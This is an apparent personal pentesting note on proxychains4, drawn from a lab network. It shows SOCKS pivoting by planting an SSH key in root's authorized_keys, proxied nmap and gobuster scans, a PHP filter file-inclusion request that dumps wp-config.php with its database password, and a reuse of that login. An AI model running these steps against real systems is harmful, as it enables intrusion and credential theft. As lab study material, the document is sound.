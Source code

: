 # 💢 proxychains4
Tags: #💢
Related to: 
See also: 
Previous: [[Post Exploitation]], [[Tunneling & Exfiltration]]

---
## Description

Redirect connections through proxy servers.

## Usage Examples

### Upgrade to SSH shell and tunnel

Edit /etc/proxychains4.conf file to proxy requests through SOCKS port 1080:

	socks5 127.0.0.1 1080

Add your public key to the target and upgrade to SSH shell:

	ssh-keygen -b 4096								// create key in ~/.ssh/
	cat ~/.ssh/id_rsa.pub							// add this to target /root/.ssh/authorized_keys
																								// and if you created authorized_keys, ensure that the
																								// permissions are root:root and chmod 700.
	ssh -i ~/.ssh/id_rsa -D 1080 root@10.10.110.100	// root@DANTE-WEB-NIX01



nmap through proxychains:

```
Note: nmap SYN scan is not proxy aware and there is limited support for the Nmap --proxies option. Instead, we can use a TCP Connect Scan (-sT), which uses the OS to issue a higher-level connect system call that routes the traffic through the proxy.
```

	proxychains nmap 172.16.1.10 -sT -sV -Pn -T5

```
Nmap scan report for 172.16.1.10
Host is up, received user-set (0.11s latency).
Scanned at 2021-12-25 16:43:34 EST for 115s
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     REASON  VERSION
22/tcp  open  ssh         syn-ack OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

	proxychains firefox http://172.16.1.10
	
	proxychains curl "172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php" | base64 -d > wp-config.php

```
/ ** MySQL settings - You can get this info from your web host ** //
/ ** The name of the database for WordPress */
define( 'DB_NAME' 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'margaret' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Welcome1!2@3#' );
```

	proxychains ssh margaret@172.16.1.10

### Enumerate files and  directories through proxychains

	gobuster dir --proxy socks5://127.0.0.1:1080 --url http://172.16.1.13/ -w /usr/share/wordlists/dirb/common.txt

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.1.13/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] Proxy:                   socks5://127.0.0.1:1080
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/26 15:33:37 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 1043]
/.htpasswd            (Status: 403) [Size: 1043]
/.htaccess            (Status: 403) [Size: 1043]
/aux                  (Status: 403) [Size: 1043]
/cgi-bin/             (Status: 403) [Size: 1057]
/com1                 (Status: 403) [Size: 1043]
/com2                 (Status: 403) [Size: 1043]
/com3                 (Status: 403) [Size: 1043]
/con                  (Status: 403) [Size: 1043]
/dashboard            (Status: 301) [Size: 338] [--> http://172.16.1.13/dashboard/]
/discuss              (Status: 301) [Size: 336] [--> http://172.16.1.13/discuss/]  
/favicon.ico          (Status: 200) [Size: 30894]                                  
/examples             (Status: 503) [Size: 1057]                                   
/img                  (Status: 301) [Size: 332] [--> http://172.16.1.13/img/]      
/index.php            (Status: 302) [Size: 0] [--> http://172.16.1.13/dashboard/]  
/licenses             (Status: 403) [Size: 1202]                                   
/lpt1                 (Status: 403) [Size: 1043]                                   
/lpt2                 (Status: 403) [Size: 1043]                                   
/nul                  (Status: 403) [Size: 1043]                                   
/phpmyadmin           (Status: 403) [Size: 1202]                                   
/prn                  (Status: 403) [Size: 1043]                                   
/server-info          (Status: 403) [Size: 1202]                                   
/server-status        (Status: 403) [Size: 1202]                                   
/webalizer            (Status: 403) [Size: 1043]                                   
                                                                                   
===============================================================
2021/12/26 15:34:10 Finished
===============================================================
```

---
## References
- [[]]